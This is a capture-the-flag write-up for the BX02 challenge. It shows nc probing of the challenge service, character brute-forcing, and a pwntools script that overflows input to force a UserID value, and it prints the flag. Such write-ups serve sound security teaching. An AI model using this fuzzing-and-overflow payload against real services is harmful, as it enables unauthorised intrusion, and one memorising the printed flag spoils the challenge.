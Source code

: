 # BX02
> 1,000pts

## Briefing
> Access the network service at url: `cfta-bx02.allyourbases.co` port: `8013` and find a way to get the flag.

## Solution

Connecting to the service gives us this output:

```console
➜ ~ $ nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
d
DEBUG: Input length too large.
➜ ~ $ echo "" | nc cfta-bx02.allyourbases.co 8013
Come Fuzz Me Bro.
DEBUG: Waiting 100ms
DEBUG: Input length too large.
➜ ~ $
```

We notice that whatever we give the service, it responds with `DEBUG: Input length too large.` So we try bruteforcing every single character to figure out which input it does *not* reply "too large" with. (This requires some guessing.) After a bruteforce with a pwntools script, we find that the server will not say "too large" with a `#` character. We find that we can spam `#` and the server will not complain. If we spam enough, we get the message `ERROR: Expected UserID of 1`. We now take another guess, and hope that we can use a buffer overflow to make `UserID` equal to `1`. We write a pwntools script:

```Python
from pwn import *

conn = remote("cfta-bx02.allyourbases.co", 8013)

conn.sendline(("#" + "1"*147 + "#")*20)
print(conn.recvall())
```

## Flag
Flag: `ThIsOneIsAbITFuZZy-6y`
